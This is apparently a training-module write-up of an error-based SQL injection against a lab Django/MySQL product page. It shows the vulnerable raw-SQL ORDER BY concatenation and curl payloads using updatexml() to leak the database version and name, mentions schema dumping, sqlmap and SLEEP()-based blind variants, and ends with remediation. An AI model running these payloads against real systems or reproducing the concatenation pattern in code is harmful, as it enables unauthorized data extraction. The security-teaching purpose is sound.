




# Module 03: Django Security Assessment — SQL Injection via order_by()

## Overview

This assessment targeted a Django application backed by MySQL, exposing a product catalogue at `/products/`. The view accepted a user-controlled `order` query parameter and used it to build the `ORDER BY` clause of a raw SQL query through direct string concatenation, bypassing the protections normally provided by Django's ORM. This is consistent with **CVE-2021-35042**, a critical (CVSS 9.8) unauthenticated SQL injection vulnerability affecting Django's `order_by()` handling when untrusted input reaches a raw query path. With the application's debug mode enabled, database errors were reflected directly into HTTP responses, turning a blind injection point into a fully readable data-extraction channel.

---

## Target Identification

### HTTP Fingerprinting

A header request against the application confirmed a Django deployment running under Gunicorn's WSGI interface:

```bash
curl -I "http://target.internal:8000/products/"
```

```
HTTP/1.1 200 OK
Server: WSGIServer/0.2 CPython/3.10.12
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Set-Cookie: csrftoken=...; expires=...; Path=/; SameSite=Lax
```

The combination of `X-Frame-Options: DENY`, `X-Content-Type-Options: nosniff`, and `Referrer-Policy: same-origin` appearing together is a strong Django signal — these are applied as a set by Django's `SecurityMiddleware`, and no other common framework replicates this exact combination by default. The `csrftoken` cookie name further confirmed the stack.

### Locating the Injection Point

Requesting the product listing page directly revealed a form containing a `csrfmiddlewaretoken` hidden field (Django's CSRF protection, injected automatically into every POST/GET form by `CsrfViewMiddleware`) and, more importantly, a hidden `order` field reflecting a user-controllable sort parameter:

```bash
curl -s "http://target.internal:8000/products/"
```

```html
<form method="get" action="">
  <input type="hidden" name="csrfmiddlewaretoken" value="...">
  <input type="hidden" name="order" value="">
</form>
<ul>
  <li>Gadget B - $19.99</li>
  <li>Tool C - $4.99</li>
  <li>Widget A - $9.99</li>
</ul>
```

The `order` parameter, used to control product sort order, was the candidate injection point for further testing.

---

## Vulnerability Summary

The view handling `/products/` built its SQL query by concatenating the `order` parameter directly into a `CASE WHEN` expression inside an `ORDER BY` clause, rather than passing it through Django's ORM query-building methods:

```python
order = self.request.GET.get('order', 'name')
sql = (
    'SELECT id, name, price, description FROM products_product '
    f'ORDER BY (CASE WHEN (1=1) THEN {order} ELSE name END)'
)
```

Because the `CASE WHEN (1=1)` condition is always true, whatever value is supplied in `order` lands inside the `THEN` branch and is executed as part of the SQL statement with no validation or escaping. Combined with `DEBUG = True` in the application's settings, any resulting database error was rendered directly into the HTTP 500 response body, including MySQL's raw error text — turning this into a practical extraction channel rather than a purely blind injection.

---

## Exploitation Workflow

### 1. Extracting the MySQL Version

The `updatexml()` function is intended for XML manipulation, not data extraction — it is abused here purely for its error-message side effect. Supplying it with a deliberately invalid XPath expression containing a subquery forces MySQL to raise a parsing error that includes the subquery's result inside the error text:

```bash
curl -s "http://target.internal:8000/products/?order=updatexml(1,concat(0x7e,(select%20@@version)),1)" \
  | grep -o '~[0-9][^&]*'
```

```
~8.0.45-0ubuntu0.22.04.1
```

The `0x7e` value is the hex encoding of `~`, used purely as a visual delimiter to make the leaked value easy to isolate from the surrounding error text. The repeated output lines correspond to the error firing once per row evaluated by the query — expected behavior for this technique, not a fault condition.

### 2. Extracting the Active Database Name

The same technique was repeated against a different scalar value — `database()` — to confirm the injection could extract arbitrary data, not just one fixed fact:

```bash
curl -s "http://target.internal:8000/products/?order=updatexml(1,concat(0x7e,(select%20database())),1)" \
  | grep -o '~[0-9a-zA-Z_][^&]*'
```

```
~vuln_db
```

This confirmed the injection point could be used as a general-purpose data extraction primitive — the same pattern extends naturally to enumerating `information_schema.tables` and `information_schema.columns` to map and dump the full schema.

---

## Impact

This vulnerability allowed unauthenticated extraction of arbitrary database content through a single GET parameter, with no login or special tooling required. In a production environment, this class of injection typically escalates from version/schema fingerprinting to full enumeration of application tables — credentials, session data, personal information — using the identical technique demonstrated above, or automated with tools such as `sqlmap` once the injection point is confirmed. The presence of `DEBUG = True` significantly increased the severity here by surfacing raw database errors; on a hardened deployment with `DEBUG = False`, the same underlying injection would still be exploitable via blind, time-based techniques (e.g., `SLEEP()`), just without the convenience of readable error output.

---

## Evidence

### 1. Django Header Fingerprinting


`Server: WSGIServer/0.2 CPython/3.10.12` alongside Django's characteristic `SecurityMiddleware` header set and `csrftoken` cookie confirm the stack.

### 2. Product Listing and Injection Point


The `order` parameter, exposed as a hidden form field, is the user-controlled value that reaches the raw SQL `ORDER BY` clause.

### 3. SQL Injection — MySQL Version Extraction


`updatexml()`-based error injection leaks the MySQL version (`8.0.45-0ubuntu0.22.04.1`) directly into the HTTP response body.

### 4. SQL Injection — Database Name Extraction


The same technique extracts the active database name (`vuln_db`), confirming arbitrary scalar data extraction is possible.

---

## Remediation

* Replace raw SQL string concatenation with Django ORM methods (`order_by()` with a validated, allow-listed set of field names) so user input never reaches the query as executable SQL.
* If raw queries are unavoidable, use parameterized queries via Django's `connection.cursor()` and pass user input as bound parameters rather than interpolating it into the SQL string.
* Disable `DEBUG` in any environment reachable outside of local development; raw database errors should never be exposed in HTTP responses.
* Apply least-privilege database credentials to the application's database user, limiting the blast radius of a successful injection even if one is later discovered.
* Monitor for and rate-limit requests containing SQL metacharacters or known injection function names (`updatexml`, `extractvalue`, `sleep`) on parameters that influence query construction.